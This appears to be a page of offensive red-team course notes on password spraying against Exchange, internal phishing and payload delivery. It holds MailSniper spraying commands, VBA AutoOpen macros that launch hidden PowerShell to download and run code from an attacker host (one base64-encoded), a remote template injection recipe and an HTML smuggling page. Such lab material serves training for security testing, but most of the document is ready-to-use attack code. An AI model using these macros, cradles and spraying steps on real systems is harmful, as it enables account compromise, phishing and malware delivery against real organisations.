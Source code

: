 ## Password Spraying

---

1. Enumerate NetBIOS name of the target domain with [[MailSniper#Invoke-DomainHarvestOWA]]
``` powershell
ipmo C:\Tools\MailSniper\MailSniper.ps1
Invoke-DomainHarvestOWA -ExchHostname <domain>
```

2. Generate possible usernames from full names with [namemash.py](https://gist.github.com/superkojiman/11076951)
``` bash
./namemash.py names.txt > possible.txt
```

3. Validate which usernames are valid with [[MailSniper#Invoke-UsernameHarvestOWA]]
``` powershell
Invoke-UsernameHarvestOWA -ExchHostname <exchange_hostname> -Domain <domain> -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt
```

4. Spray passwords against the valid accounts using Outlook Web Access (OWA), Exchange Web Services (EWS) and Exchange ActiveSync (EAS) with [[MailSniper#Invoke-PasswordSprayOWA]]
``` powershell
Invoke-PasswordSprayOWA -ExchHostname <exchange_hostname> -UserList .\Desktop\valid.txt -Password <password>
```

5. Download the global address list with valid credentials with [[MailSniper#Get-GlobalAddressList]]
``` powershell
Get-GlobalAddressList -ExchHostname <exchange_hostname> -UserName <domain>\<username> -Password <password> -OutFile .\Desktop\gal.txt
```


## Internal Phishing

---

### Initial Access Payloads

1. Send a URL where a payload can be downloaded.
2. Attach the payload to the phishing email.


### VBA Macros

- create beacon payload in [[Cobalt Strike#Create Beacon Payload]]
go to `Attacks > Scripted Web Delivery (S)` and generate a 64-bit PowerShell payload

![](https://files.cdn.thinkific.com/file_uploads/584845/images/94e/ba0/32d/swd.png)
![](https://files.cdn.thinkific.com/file_uploads/584845/images/5c5/5b6/77d/oneliner.png)

- prepare word document
	1. `File > Info > Inspect Document > Inspect Document`
	2. click `Inspect`
	3. click `Remove All`
	4. `File > Save As`
	5. use `.doc`

- host a file on [[Cobalt Strike#Host a File]] team server
`Site Management > Host File` and select document

![](https://files.cdn.thinkific.com/file_uploads/584845/images/087/4fa/7c4/host-file.png)

- auto open script
``` vba
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('<url>'))"""

End Sub
```

[Here](https://github.com/ZeroPointSecurity/PhishingTemplates/tree/master/Office365) are some HTML templates based around Office 365 (a copy can also be found in `C:\Tools\PhishingTemplates`).  Open one of them, e.g. `Word.html` in Edge or another browser. Amazingly, what you can do is `Ctrl + A` and `Ctrl + C` to copy the content; and then `Ctrl + V` to paste it directly into the OWA text editor.  All the text and image formatting should be preserved.

You can change the text placeholders and URL to the payload on lines [160](https://github.com/ZeroPointSecurity/PhishingTemplates/blob/master/Office365/Word.html#L160), [183](https://github.com/ZeroPointSecurity/PhishingTemplates/blob/master/Office365/Word.html#L183), [192](https://github.com/ZeroPointSecurity/PhishingTemplates/blob/master/Office365/Word.html#L192), [197](https://github.com/ZeroPointSecurity/PhishingTemplates/blob/master/Office365/Word.html#L197), and [207](https://github.com/ZeroPointSecurity/PhishingTemplates/blob/master/Office365/Word.html#L207).  My payload URL will be _http://nickelviper.com/ProductReport.doc_.

To prevent powershell from running as a childprocess of Word, use this example:
``` vba
Sub AutoOpen()

	Set shellWindows = GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")
	Set obj = shellWindows.Item()
	obj.Document.Application.ShellExecute "powershell.exe", "-nop -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AbgBpAGMAawBlAGwAdgBpAHAAZQByAC4AYwBvAG0ALwBhACIAKQA=", Null, Null, 0

End Sub
```

## Remote Template Injection

---

Open Word on the Attacker Desktop, create a new blank document and insert your desired macro.  Save this to `C:\Payloads` as a Word 97-2003 Template (*.dot) file.  This is now our "malicious remote template".  Use [[Cobalt Strike#Host a File]] to host this file at _http://nickelviper.com/template.dot_.

Next, create a new document from the blank template located in `C:\Users\Attacker\Documents\Custom Office Templates`.  Add any content you want, then save it to `C:\Payloads` as a new .docx.  Browse to the directory in explorer, right-click and select _7-Zip > Open archive_.  Navigate to _word > _rels, r_ight-click on `settings.xml.rels` and select _Edit_.

This is just a small XML file.  Scroll right until you see the _Target_ entry.

Target="file:///C:\Users\Attacker\Documents\Custom%20Office%20Templates\Blank%20Template.dotx"

It's currently pointing to the template on our local disk from which the document was created.  Simply modify this so it points to the template URL instead.

Target="http://nickelviper.com/template.dot"

## HTML Smuggling

---

``` html
<html>
    <head>
        <title>HTML Smuggling</title>
    </head>
    <body>
        <p>This is all the user will see...</p>

        <script>
        function convertFromBase64(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array( len );
            for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
            return bytes.buffer;
        }

        var file ='VGhpcyBpcyBhIHNtdWdnbGVkIGZpbGU=';
        var data = convertFromBase64(file);
        var blob = new Blob([data], {type: 'octet/stream'});
        var fileName = 'test.txt';

        if(window.navigator.msSaveOrOpenBlob) window.navigator.msSaveBlob(blob,fileName);
        else {
            var a = document.createElement('a');
            document.body.appendChild(a);
            a.style = 'display: none';
            var url = window.URL.createObjectURL(blob);
            a.href = url;
            a.download = fileName;
            a.click();
            window.URL.revokeObjectURL(url);
        }
        </script>
    </body>
</html>
```